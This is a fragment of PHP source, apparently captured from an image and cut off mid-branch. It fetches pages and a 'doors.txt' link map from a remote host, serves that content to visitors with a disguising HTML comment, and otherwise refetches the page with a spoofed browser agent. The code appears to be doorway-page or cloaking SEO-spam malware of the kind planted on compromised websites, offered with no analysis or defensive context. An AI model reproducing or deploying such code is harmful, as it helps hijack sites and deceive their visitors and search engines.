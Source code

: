 ```
                        {
                            $ch = curl_init();
                            curl_setopt($ch, CURLOPT_URL, "$www_root/pages/$folder/$filename1");
                            curl_setopt($ch, CURLOPT_HEADER, 0);
                            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
                            $remote_page = curl_exec($ch);
                            $ch2 = curl_init();
                            curl_setopt($ch2, CURLOPT_URL, "$www_root/pages/$folder/$filename2");
                            curl_setopt($ch2, CURLOPT_HEADER, 0);
                            curl_setopt($ch2, CURLOPT_RETURNTRANSFER, 1);
                            $remote_page2 = curl_exec($ch2);
                            $ch2 = curl_init();
                            //curl_setopt($ch2, CURLOPT_URL, "$www_root/_links/doors.php");
                            curl_setopt($ch2, CURLOPT_URL, "$www_root/pages/$folder/doors.txt");
                            curl_setopt($ch2, CURLOPT_HEADER, 0);
                            curl_setopt($ch2, CURLOPT_RETURNTRANSFER, 1);
                            $links_map = curl_exec($ch2);   
                            if (eregi ("Not Found", $links_map))
                                {
                                    $links_map = "";
                                }
                        }
                        else
                        {
                            $remote_page = file_get_contents("$www_root/pages/$folder/$filename1");
                            $remote_page2 = file_get_contents("$www_root/pages/$folder/$filename2");
                            $links_map = file_get_contents("$www_root/pages/$folder/doors.txt");
                            if (eregi ("Not Found", $links_map))
                                {
                                    $links_map = "";
                                }                           
                            //$links_map = file_get_contents("$www_root/_links/doors.php");
                        }

                        if (eregi('<h2>', $remote_page))
                            {
                                echo $remote_page."<!-- End HTML 3.51.197 -->";
                                exit;
                            }
                        if (eregi('<h2>', $remote_page2))
                            {
                                echo $remote_page2."<!-- End HTML 3.51.197 -->";
                                exit;
                            }
                            else
                            {
                                // NIHT :)
                                $originalurl="http://".$_SERVER["HTTP_HOST"].$_SERVER["REQUEST_URI"];
                                $originaluseragent="Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1;";
                                if (extension_loaded('curl'))
                                    {
                                        $ch = curl_init();
                                        curl_setopt($ch, CURLOPT_URL, $originalurl);
                                        curl_setopt($ch, CURLOPT_USERAGENT, $originaluseragent);
                                        curl_setopt($ch, CURLOPT_HEADER, 0);
                                        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
                                        $originalpage = curl_exec($ch);     
                                    }
                                    else
                                    {   
```